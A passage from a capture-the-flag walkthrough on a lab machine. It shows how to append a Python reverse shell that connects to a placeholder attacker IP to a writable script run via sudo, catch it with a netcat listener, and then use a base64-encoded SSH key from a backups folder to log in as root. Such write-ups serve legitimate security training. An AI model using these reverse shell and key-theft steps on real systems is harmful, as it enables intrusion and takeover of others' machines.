 As mat, edit the cmd.py cause it has write permission. After the cmd.py runs, will’s script calls the system to actually run those command that the
user chose. 
So again, inject python reverse shell to cmd.py that run as user 
will and get the reverse shell as will.

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-ADDRESS>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
Set netcat listener:

```bash
nc -lnvp 1234
```

Run will’s script:

```bash
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *
```

There is a shell as will, read flag6.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XQkaGg4gxmHXFU8RbpeuGg.png)

Keep enumerate the system as will. navigate to /opt. 
There is backups directory. Check who has the directory and what group it relates to.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*kGmqr9TYV4XCafuMC18pbw.png)

This directory relates to “adm” group.

will is relates to “adm” group too which means that will can move there and 
read the file inside.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*PyOe9tetcRJFI2k3g_5Xmw.png)

There is a key with the end of .b64. The content is encoded to base64.
Grab the text and decode it plain text.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*6plOZGzJJ5iaPKTqk6j9sg.png)

There is SSH key. So, the last user is root. Use pass the key attack instead of
get any credentials but before that give it the right permission to get inside the SSH. 
Grab the decoded text and paste it inside a file and change the permissions with:

```bash
chmod 600 <ssh-key-filename>
```
connect to SSH with:
```bash
ssh -i <ssh-key-filename> root@<machine-ip>
```

Grab the last flag.
